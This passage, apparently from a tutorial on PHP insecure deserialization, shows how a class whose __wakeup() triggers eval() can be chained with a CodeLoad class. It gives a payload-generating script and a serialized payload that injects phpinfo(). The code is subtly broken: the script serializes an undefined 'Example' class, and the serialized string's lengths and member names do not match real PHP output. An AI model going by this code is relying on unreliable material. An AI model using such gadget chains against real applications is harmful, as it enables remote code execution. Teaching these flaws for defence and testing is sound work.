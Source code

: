 In the first block of code, we define a class named `LoadObjectInternal`, which invokes the `eval()` method of `obj` when the `__wakeup()` function is called. The second block of code describes the `CodeLoad` class, which has a private property named `code` containing the code string to be executed and a `run()` method that calls `eval()` on the given code string.

At first glance, this may appear complex and non-exploitable. However, to exploit it, we only need to overwrite the `code` property with our malicious payload and trigger the `LoadObjectInternal` class to create an instance of `CodeLoad` using the `__wakeup()` method.

Thus, we can employ the following script to generate our payload:

```php
class CodeLoad
{
    private $code = "phpinfo();";
}

class LoadObjectInternal
{
    protected $obj;
    function __construct()
    {
        $this->obj = new CodeLoad;
    }
}

print urlencode(serialize(new Example));
```

This script results in our final payload being submitted as the following serialized string:

```php
O:18:"LoadObjectInternal":1:{s:6:"*obj";O:8:"CodeLoad":1:{s:14:"CodeLoadcode";s:10:"phpinfo();";}}
```

**Tip:** If you are interested in uncovering deserialization vulnerabilities in more intricate PHP frameworks like CodeIgniter or Laravel, consider exploring the [PHPGGC tool on GitHub](https://github.com/ambionics/phpggc).

